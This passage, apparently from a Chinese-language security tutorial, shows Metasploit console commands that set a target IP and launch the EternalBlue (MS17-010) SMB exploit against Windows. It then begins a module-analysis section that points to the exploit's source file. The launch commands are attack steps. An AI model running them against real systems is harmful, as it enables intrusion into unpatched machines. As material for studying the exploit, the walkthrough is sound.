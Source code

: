 设置远程目标 IP

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.1.15
```

攻击

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
or
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

[![](assets/1701606737-d80868fec942b2eb353ef9050090efe0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234559-94dee2d6-7cbb-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17\_010\_eternalblue.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17_010_eternalblue.rb)

本地，/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17\_010\_eternalblue.rb

*   exploit 函数，攻击入口
